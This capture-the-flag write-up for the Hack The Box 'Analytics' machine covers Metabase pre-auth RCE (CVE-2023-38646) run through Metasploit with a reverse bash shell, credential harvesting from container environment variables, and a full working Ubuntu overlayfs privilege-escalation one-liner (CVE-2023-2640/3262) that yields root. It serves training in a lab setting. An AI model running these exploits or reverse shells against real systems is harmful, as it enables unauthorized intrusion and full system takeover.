 # Decoding the Cyber Maze: Metabase Pre-Authentication RCE in 'Analytics Machine'.

![Analytics by Mr  Govind Dubey ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/5389b04e-7de8-4994-ac76-e5dbc4d79727)

## Introduction

Brace yourselves for a deep dive into the captivating realm of machine "analytics". In this exploration, we'll unravel the intricacies of analyzing machines, with a specific emphasis on the fascinating landscape of Metabase Remote Code Execution (RCE). We dissect the architecture, employing cutting-edge techniques to unveil the hidden steps that illuminate the profound world of machine analysis.

## Enumeration
An Nmap scan reveals a website at analytical.htb:

```bash
┌──(yury㉿kali)-[~/Documents/htb/analytics/CVE-2023-38646]
└─$ nmap analytical.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 04:21 PDT
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
8402/tcp filtered abarsd
```

## Found a login page there
The website has a login page which goes to the _data.analytical.htb_ subdomain. This login page is using Metabase.

![Analytics _Web_Page by Mr  Govind Dubey  ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/3c7d5d8f-21e4-40ee-920c-f94f50533d8a)


Subdomain : _data.analytical.htb_
![Metabase admin page - Mr  Govind Dubey ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/e12f739c-49df-4e89-a1c3-a4a3f8056638)


## discovered an exploit within metasploit
While scouring the internet for details on Metabase exploits, I stumbled upon this information and grasped the underlying vulnerability gives us CVE-2023-38646 ( Chaining our way to Pre-Auth RCE in Metabase ) . 


```bash
msf > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE

msf > use exploit/linux/http/metabase_setup_token_rce
[*] Using configured payload cmd/unix/reverse_bash

```

#### Let's immerse ourselves in the task at hand by configuring our rhost, lhost, and rport settings for impactful exploits in Metasploit.

```bash
msf exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf exploit(linux/http/metabase_setup_token_rce) > set LHOST 10.10.15.63
LHOST => 10.10.15.63
msf exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
```
 #### Once completing the setup, feel free to proceed with executing the exploit.

```bash
msf exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.15.63:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.15.63:4444 -> 10.10.11.233:39036) at 2023-10-15 05:24:31 -0700

```

#### I commence the enumeration process to facilitate container escape. My first step involves scrutinizing potential environment variables through the execution of the 'env' command.

```bash 
env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=151580f52dbb
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=**************
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db 
```

#### I found the password. Now, let’s use it to log in with ssh to the machine.

```bash
metalytics@analytics:~$ ls
user.txt 
```

<br></br>

## Privilege Escalation

```bash 
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

#### I utilized a script [exploit.sh](10.10.11.233/exploit.sh) meticulously crafted for Linux privilege escalation on the targeted machine.

```bash 
metalytics@analytics:~$ cd ../../tmp
metalytics@analytics:/tmp$ nano exploit.sh
metalytics@analytics:/tmp$ cat exploit.sh 
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262:Privilege Escalation

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp$ chmod +x exploit.sh 
```

## Ready to kick things off? Simply proceed by executing the [exploit.sh](10.10.11.233/exploit.sh) file!"

```bash 
metalytics@analytics:/tmp$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
root@analytics:/tmp# cat ../../root/root.txt

```

![Analytics pawnd by Mr  Govind Dubey ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/f05df61a-7e3f-4a05-afd4-26fa1a3c11f3)

